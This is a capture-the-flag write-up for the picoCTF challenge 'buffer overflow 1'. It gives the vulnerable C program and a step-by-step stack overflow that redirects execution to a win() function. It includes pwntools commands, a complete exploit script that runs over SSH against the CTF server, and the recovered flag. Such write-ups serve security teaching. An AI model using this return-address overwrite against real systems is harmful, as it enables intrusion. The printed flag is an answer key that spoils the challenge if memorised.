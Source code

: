 # buffer overflow 1
Binary Exploitation, 200 points

## Description:
> Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this program?

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```

## Solution:

`vuln` allocates a buffer of size `BUFSIZE` (32) on the stack, then uses `gets` to read into it. 

If we read the man page about `gets`, we see the following recommendation:
> Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use. It has been used to break computer security.

Since `gets` is being used, we can override the buffer and take control of the stack, overriding `vuln`'s return address and changing it to `win`'s address.

The first step is to calculate the difference between the beginning of the buffer and the return address - this is the length of the "padding" we will need before placing our own return address.

We can use pwntools' `cyclic` utility for that:

```console
root@kali:/media/sf_CTFs/pico/buffer_overflow_1# cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
root@kali:/media/sf_CTFs/pico/buffer_overflow_1# cyclic 100 | ./vuln
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c
Segmentation fault
```

The program kindly prints out where it tried to jump to: 0x6161616c.
We can also find this information using `dmesg`:
```console
root@kali:/media/sf_CTFs/pico/buffer_overflow_1# dmesg | grep vuln
[ 1416.812797] vuln[1935]: segfault at 6161616c ip 000000006161616c sp 00000000ffba3f40 error 14 in libc-2.27.so[f7d4c000+19000]
```

We return to `cyclic` and request it to calculate the padding length:
```console
root@kali:/media/sf_CTFs/pico/buffer_overflow_1# cyclic -l 0x6161616c
44
```

So we need 44 bytes of padding.

Now, we just need the address of `win()`, and we can create our shellcode:
```console
root@kali:/media/sf_CTFs/pico/buffer_overflow_1# objdump -t vuln | grep win
080485cb g     F .text  00000064              win
```

Putting it all together, we can run the exploit locally:
```console
root@kali:/media/sf_CTFs/pico/buffer_overflow_1# python -c "from pwn import *;print('A'*44 + p32(0x080485cb))" | ./vuln
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.
```

This would have given us the flag if we were to run it on the server. However, let's create a full pwntools script in order to retrieve the flag from the server:

The script:
```python
from pwn import *
import argparse
import os

EXECUTABLE = "vuln"
LOCAL_PATH = "./"
REMOTE_PATH = "/problems/buffer-overflow-1_2_86cbe4de3cdc8986063c379e61f669ba/"
SSH_SERVER = "2018shell3.picoctf.com"

def get_process_path(is_ssh = False):
    if is_ssh or os.path.exists(REMOTE_PATH):
        return REMOTE_PATH + EXECUTABLE
    else:
        return LOCAL_PATH + EXECUTABLE

def get_process(ssh_user = None):
    is_ssh = ssh_user is not None
    path = get_process_path(is_ssh)
    params = {"argv": path, "cwd": os.path.dirname(path)}
    if is_ssh:
        s = ssh(host=SSH_SERVER, user=ssh_user)
        p = s.process(**params)
    else:
        p = process(**params)
    return p

def send_payload(proc, payload):
    proc.sendlineafter("Please enter your string:", payload)

def get_overflow_offset():
    # It's problematic to create a core dump on an NTFS file system,
    # so reconfigure core dumps to be created elsewhere
	os.system("echo ~/core/core_dump > /proc/sys/kernel/core_pattern")

	proc = process(get_process_path())
	payload = cyclic(100)
	send_payload(proc, payload)
	proc.wait()
	offset = cyclic_find(proc.corefile.eip)
	log.info("Overflow offset: {}".format(offset))
	return offset


parser = argparse.ArgumentParser()
parser.add_argument("-s", "--ssh_user", help="Connect via SSH with the given username")
args = parser.parse_args()

e = ELF(get_process_path())
log.info("Address of win(): 0x{:02X}".format(e.symbols["win"]))
offset = get_overflow_offset()

p = get_process(args.ssh_user)
payload = fit({offset: e.symbols["win"]})
send_payload(p, payload)
print p.recvall()
```

Output:
```console
root@kali:/media/sf_CTFs/pico/buffer_overflow_1# python exploit.py --ssh_user=$pico_ssh_user
[*] '/media/sf_CTFs/pico/buffer_overflow_1/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[*] Address of win(): 0x80485CB
[+] Starting local process './vuln': pid 1120
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 1120)
[+] Parsing corefile...: Done
[*] '/media/sf_CTFs/pico/buffer_overflow_1/core.1120'
    Arch:      i386-32-little
    EIP:       0x6161616c
    ESP:       0xfff81570
    Exe:       '/media/sf_CTFs/pico/buffer_overflow_1/vuln' (0x8048000)
    Fault:     0x6161616c
[*] Overflow offset: 44
[+] Connecting to 2018shell3.picoctf.com on port 22: Done
[*] user@2018shell3.picoctf.com:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.0
    ASLR:     Enabled
[+] Starting remote process '/problems/buffer-overflow-1_2_86cbe4de3cdc8986063c379e61f669ba/vuln' on 2018shell3.picoctf.com: pid 3352115
[+] Receiving all data: Done (101B)
[*] Stopped remote process 'vuln' on 2018shell3.picoctf.com (pid 3352115)

Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{addr3ss3s_ar3_3asy56a7b196}
```

The flag: picoCTF{addr3ss3s_ar3_3asy56a7b196}
